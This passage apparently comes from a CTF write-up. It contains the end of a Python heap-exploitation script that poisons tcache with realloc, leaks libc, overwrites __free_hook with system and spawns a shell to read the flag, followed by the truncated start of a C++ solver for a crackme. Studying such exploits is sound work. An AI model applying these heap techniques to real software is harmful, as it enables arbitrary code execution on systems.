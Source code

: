 ```python
        rm('r')
    realloc(0,'')

if __name__ == '__main__':
    create(0x30)
    create(0x20)
    create(0x40)
    create(0x60)
    create(0x50)
    realloc(0x70, 'AA')
    realloc(0,'')
    sla(": ", '1'*0x500)
    #realloc(0x90, p32(0xdd0760)[0:3])
    #realloc(0x28,p64(0))
    #realloc(0,'')
    realloc(0x150,'\x00'*0x128 + p64(0xe1)+p32(0x7758)[0:2])
    realloc(0,'')
    realloc(0x50,p64(0))
    malloc(0x58,'/bin/sh\x00'+p64(0xfbad3c80)+p64(0)*3+p8(0))
    rv(8)
    libc_addr = u64(rv(8)) - 0x3ed8b0
    lg("libc",libc_addr)
    libc.address = libc_addr
    realloc(0x150, '\x00'*0x58 + p64(0x21) + p64(libc.symbols['__free_hook'])+p64(0x21)*4)
    realloc(0,'')
    realloc(0x70,'\x00')
    realloc(0,'')
    realloc(0x70,p64(libc.symbols['system']))
    rm('m')
    sl("cat flag")
    p.interactive()

```


## RE

### Easy Crack Me

Search for all possible strings and check them.

```cpp
#include <cstdio>
int num[16] = {3, 2, 2, 0, 3, 2, 1, 3, 3, 1, 1, 3, 1, 2, 2, 3};
int bsum[8] = {0x15e, 0xda, 0x12f, 0x131, 0x100, 0x131, 0xfb, 0x102};
int bxor[8] = {0x52, 0xc, 0x1, 0xf, 0x5c, 0x5, 0x53, 0x58};
int gsum[8] = {0x129, 0x103, 0x12b, 0x131, 0x135, 0x10b, 0xff, 0xff};
int gxor[8] = {0x1, 0x57, 0x7, 0xd, 0xd, 0x53, 0x51, 0x51};
char a[33] = "AfOAO87OAOOAAOOAO2AOAAOOO4AOOOA5";
int esum = 1160;
bool checkeven()
{
    int sum = 0;
    for (int i = 0; i < 32; i += 2)
        if (a[i] == 'A' || a[i] == 'O')
            return true;
        else
            sum += a[i];
    return sum == esum;
}
bool checkbsum(int p)
{
    int s = p / 4 * 4;
    int sum = 0;
```